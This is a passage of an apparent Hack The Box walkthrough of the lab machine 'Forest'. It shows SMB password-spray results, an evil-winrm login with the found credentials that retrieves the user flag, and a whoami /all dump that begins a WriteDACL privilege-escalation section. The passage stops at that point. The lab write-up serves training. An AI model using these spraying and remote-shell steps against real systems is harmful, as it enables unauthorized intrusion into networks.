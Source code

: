 ```none
SMB         10.10.10.161    445    FOREST           [-] HTB\sebastien:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [-] HTB\lucinda:s3rvice STATUS_LOGON_FAILURE
SMB         10.10.10.161    445    FOREST           [+] HTB\svc-alfresco:s3rvice
```

I was only able to login as the `svc-alfreso` user, so the password was not reused amongst the other users.
Since I has the password for the `svc-alfreso` user, I figured I might as well try logging in with WinRM:

```none
$ ./evil-winrm.rb -u svc-alfresco -p s3rvice -i 10.10.10.161

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> gc C:\Users\svc-alfresco\Desktop\user.txt
e5e4e47ae7022664cda6eb013fb0d9ed
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

As seen above, I was able to successfully login and grab the `user.txt` flag.

## Privilege Escalation (Abusing WriteDACL from Windows Exchange Privileges)

On Windows machines, I always check for my current user's groups and privileges:

```none
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami /all

USER INFORMATION
----------------

User Name        SID
================ =============================================
htb\svc-alfresco S-1-5-21-3072663084-364016917-1341370565-1147


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Account Operators                  Alias            S-1-5-32-548                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
HTB\Privileged IT Accounts                 Group            S-1-5-21-3072663084-364016917-1341370565-1149 Mandatory group, Enabled by default, Enabled group
```